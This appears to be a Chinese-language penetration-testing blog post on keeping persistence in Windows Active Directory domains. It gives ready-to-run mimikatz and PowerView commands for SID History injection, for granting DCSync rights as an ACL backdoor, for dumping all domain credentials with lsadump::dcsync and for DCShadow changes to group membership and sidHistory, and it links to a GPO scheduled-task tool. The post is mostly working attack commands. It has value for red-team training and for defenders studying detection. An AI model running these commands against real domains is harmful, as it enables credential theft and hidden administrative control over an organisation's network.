 ```yaml
---
title: "针对域环境的权限维持"
date: 2019-07-22T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['domain']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



域内环境中常用的维持权限的方式.

<!--more-->

## 金银票据

[Golden and Silver Ticket](https://exp10it.cn/golden-and-silver-tickets.html).

## SID History

SID History 为域内用户迁移到新域时针对用户权限的转移而提供的一种手段.

通过 SID History 可让用户拥有不同身份的权限, 在单域中同样有效.

```
mimikatz "privilege::debug" "sid::patch" "sid::add /new:admin-sid /sam:test" "exit"
```

注意要先进行 `sid::patch`, 否则会出现 `ERROR kuhl_m_sid_add;ldap_modify_s 0x32 (50)` 错误.

清除 SID History.

```
mimikatz "privilege::debug" "sid::patch" "sid::clear /sam:test" "exit"
```

## ACL 后门

ACL 全称 Access Control List, 即访问控制列表. 故 ACL 后门, 是指针对权限配置缺陷的后门.

### DCSync

ACL 后门的 DCSync 形式.

使用 PowerSploit Dev 分支中的 PowerView.

```
Add-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test -Rights DCSync
```

这样在任意一台主机上以 test 用户登录都能通过 DCSync 向域控请求账户凭据.

```
mimikatz "lsadump::dcsync /all" "exit"
```

删除 DCSync 后门.

```
Remove-DomainObjectAcl -TargetIdentity "DC=test,DC=com" -PrincipalIdentity test -Rights DCSync
```

### GPO

ACL 后门的 GPO 形式.

通过在组策略管理中添加计划任务批量设置后门.

暂且只给出利用工具, 尚未测试成功.

[3gstudent/New-GPOImmediateTask](https://github.com/3gstudent/Homework-of-Powershell/blob/master/New-GPOImmediateTask.ps1).

## DCShadow

通过伪造 DC 并与正常 DC 同步数据的方式修改账户信息. 需要本地系统及域管理员权限.

无需登录 DC, 且只会留下 Directory Service Access 日志, 缺点是可执行的操作较少.

需要将 mimikatz 提升为 system 权限, 通过 mimidrv.sys 实现.

```
!+
!processtoken
```

修改管理员组.

```
lsadump::dcshadow /object:CN=test,CN=Users,DC=test,DC=com /attribute:primarygroupid /value:512
```

添加 SID History.
```
lsadump::dcshadow /object:CN=test,CN=Users,DC=test,DC=com /attribute:sidhistory /value:admin-sid
```

最后以域管理员权限启动另一个 mimikatz 进程.

```
lsadump::dcshadow /push
```

通过 DCShadow 还能够修改其它信息, 具体请在"属性编辑器"里查询.